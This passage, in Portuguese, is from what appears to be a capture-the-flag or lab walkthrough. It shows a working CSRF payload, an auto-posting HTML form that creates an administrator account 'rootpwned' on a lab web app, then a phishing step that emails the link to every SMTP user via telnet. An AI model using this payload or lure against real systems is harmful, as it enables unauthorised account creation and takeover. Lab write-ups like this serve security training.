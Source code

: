 ![mail](img/mail.png)  
vi que só estavam registrados os users valenka e le no smtp. monter o meu exploit para mandar minhas credenciais e ficou assim:
```html
<html>
  <body>
    <form action="http://192.168.97.128/vip-client-portfolios/?uri=admin/accounts/create" method="POST">
      <input type="hidden" name="emailAddress" value="teste@teste.com" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="rootpwned" />
      <input type="hidden" name="newPassword" value="r00tpwn3d" />
      <input type="hidden" name="confirmPassword" value="r00tpwn3d" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>
```
depois de feito e colocado na pasta do apache, eu enviei o link por email, como não sabia para qual "conhecido" mandar, enviei pra todos e fiquei monitorando os arquivos de log para saber quando o link foi acessado
```
$ telnet 192.168.97.128 25
```
![mail](img/sendemail.png)   
